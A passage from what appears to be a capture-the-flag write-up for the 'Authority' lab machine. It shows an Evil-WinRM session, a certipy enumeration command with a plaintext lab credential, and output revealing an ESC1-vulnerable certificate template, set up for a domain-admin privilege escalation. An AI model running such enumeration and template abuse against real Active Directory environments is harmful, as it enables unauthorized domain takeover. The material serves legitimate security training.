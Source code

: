 ## Privilege Escalation

### ESC1 + Add Computer -> Reset DA Password

Within the machine, there are some certificates available:

```
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> ls cert:/Localmachine/My


   PSParentPath: Microsoft.PowerShell.Security\Certificate::Localmachine\My

Thumbprint                                Subject
----------                                -------
790DCBD9D91E34EDE37CDAD9C114C3DE1BEBA7BE  CN=authority.authority.htb
42A80DC79DD9CE76D032080B2F8B172BC29B0182  CN=AUTHORITY-CA, DC=authority, DC=htb
```

This sort of guided me towards exploiting vulnerable certificate templates. I used `certipy` to find the CA stuff.&#x20;

```
$ certipy find -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -dc-ip 10.129.9.12
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Trying to get CA configuration for 'AUTHORITY-CA' via CSRA
[!] Got error while trying to get CA configuration for 'AUTHORITY-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'AUTHORITY-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'AUTHORITY-CA'
[*] Saved BloodHound data to '20230717105005_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20230717105005_Certipy.txt'
[*] Saved JSON output to '20230717105005_Certipy.json'
```

Then, I looked through the certificates to see if there were any vulnerabilities. There was one vulnerability that it picked up on:

```
1
    Template Name                       : CorpVPN
    Display Name                        : Corp VPN
    Certificate Authorities             : AUTHORITY-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
                                          AutoEnrollmentCheckUserDsCertificate
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
                                          Document Signing
                                          IP security IKE intermediate
                                          IP security use
```